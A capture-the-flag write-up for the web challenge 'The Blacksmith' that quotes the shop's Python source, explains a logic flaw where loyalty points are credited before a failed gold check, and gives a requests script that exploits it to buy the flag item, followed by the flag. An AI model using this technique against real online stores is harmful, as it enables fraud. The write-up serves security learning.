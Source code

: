 ```yaml
---
layout: default
title: The Blacksmith
permalink: /:path/
parent: Web
nav_order: 7
---
```

# The Blacksmith

> Points: 425 [1000]

## Description

> In the middle of town lies a huge colosseum, where gladiators battle for the glory of being the town's best. Next to the colosseum is a digital weapon shop owned by a famous blacksmith who sells some of the finest weapons money can buy. Rumor has it that the shop sells a rare sword that gives you a flag. The blacksmith only reserves rare items for his most loyal customers or those who've made a name for themselves in the colosseum. However, this preferential treatment has not gone unnoticed. Most of the gladiators are fed up and have started to boycott the shop. In response, the blacksmith has started rushing to patch his weapon shop code to phase out the "loyalty system" and his code is now full of hotfixes.

## Solution
Looking at the provided source code, we can see that in order to get the flag, we have to purchase the `flagsword` from the shop. Looking at the cost of flagsword reveals that as a new customer, we are able to buy the sword. However, we are unable to purchase the `flagsword` as we are not a "loyal customer".

```python
# ...

SHOP = {
    "customers": [],
    "inventory": {
        "regular": (
            Weapon("brokensword", 5, 0),
            Weapon("woodensword", 5, 1),
            Weapon("stonesword", 10, 2),
            Weapon("ironsword", 50, 10),
            Weapon("goldsword", 100, 20),
            Weapon("diamondsword", 500, 100),
        ),
        "exclusive": (Weapon("flagsword", 5, 0),),
    },
}

# ...

@app.get("/customer/new")
def register():
    if LOYALTY_SYSTEM_ACTIVE:
        customer = Customer(id=uuid4().hex, gold=5, loyalty=Loyalty(1, []))
    else:
        # Ensure loyalty immutable
        customer = Customer(
            id=uuid4().hex, gold=5, loyalty=RestrictedLoyalty(1, [])
        )

    SHOP["customers"].append(customer)

    return {"id": customer.id}

# ...

@app.get("/buy")
def buy_item(customer_id="", items: list[str] | None = Query(default=[])):
    customer_idx = Customer.index_from_id(customer_id)
    # ...
    match SHOP["customers"][customer_idx].tier:
        case "regular":
            get_weapon = partial(
                weapon_from_name, SHOP["inventory"]["regular"]
            )
        case "exclusive":
            get_weapon = partial(
                weapon_from_name,
                [
                    *SHOP["inventory"]["regular"],
                    *SHOP["inventory"]["exclusive"],
                ],
            )
        case _:
            raise HTTPException(status_code=500)
    # ...
    if "flagsword" in [weapon.name for weapon in cart]:
        return {"purchased": FLAG}

    return {"purchased": cart}
```

Scrolling through the code, it seems that the only way to earn loyalty is to spend money on the shop. However, we only have 5 gold to work with and the other endpoints do not seem to provide a way for customers to earn more gold or loyalty. 

Fortunately, there is a logic error within the code that allows us to earn loyalty without us having to spend any gold. The logic error is within the `buy_item` endpoint. The `buy_item` endpoint checks if the customer has enough gold to purchase a singular item in the cart. However, it only check if the customer has enough gold to purchase the items in the cart **after adding the loyalty points that cound be earned from the purchase**. This allows us to earn loyalty without having to spend any gold.

```python
@app.get("/buy")
def buy_item(customer_id="", items: list[str] | None = Query(default=[])):
    # ...
    total_price = 0
    point_history = []
    for item in cart:
        if item.price > SHOP["customers"][customer_idx].gold:
            raise HTTPException(status_code=403)
        total_price += item.price
        # VULNERABLE PART HERE
        if item.loyalty_points > 0:
            point_history += [item.loyalty_points]

    try:
        if len(point_history) > 0:
            SHOP["customers"][
                customer_idx
            ].loyalty.point_history += point_history
        if SHOP["customers"][customer_idx].gold < total_price:
            raise HTTPException(status_code=403)
        SHOP["customers"][customer_idx].gold -= total_price
    except:
        raise HTTPException(status_code=403)

    if "flagsword" in [weapon.name for weapon in cart]:
        return {"purchased": FLAG}

    return {"purchased": cart}

```

As such, we can create a quick python script usings `requests` to create a new account and accumulate the loyalty points needed to purchase the `flagsword`. We can then use the 5 gold we have to purchase the `flagsword` and get the flag.

```python
import requests

WEB_URL = 'xxx'
r = requests.get(f'http://{WEB_URL}/customer/new')
CUSTOMER_ID = r.json()['id']
print(CUSTOMER_ID)
for i in range(14):
    requests.get(f'http://{WEB_URL}/buy', params={'customer_id': f'{CUSTOMER_ID}', 'items': ['woodensword' for i in range(100)]})
r = requests.get(f'http://{WEB_URL}/buy', params={'customer_id': f'{CUSTOMER_ID}', 'items': ['flagsword']})
print(r.json()['purchased'])
```

Output:
```
kelvin@Kelvin-Desktop:/mnt/c/Users/kelvi/Downloads/stf22/web_the_blacksmith/web_the_blacksmith$ python solve.py
42cdb01804e2439e970cd77f6d90736c
STF22{y0u_b0ught_4_v3ry_3xcLu51v3_sw0rd_w3LL_d0n3_31337}
kelvin@Kelvin-Desktop:/mnt/c/Users/kelvi/Downloads/stf22/web_the_blacksmith/web_the_blacksmith$ 
```

## Flag
`STF22{y0u_b0ught_4_v3ry_3xcLu51v3_sw0rd_w3LL_d0n3_31337}`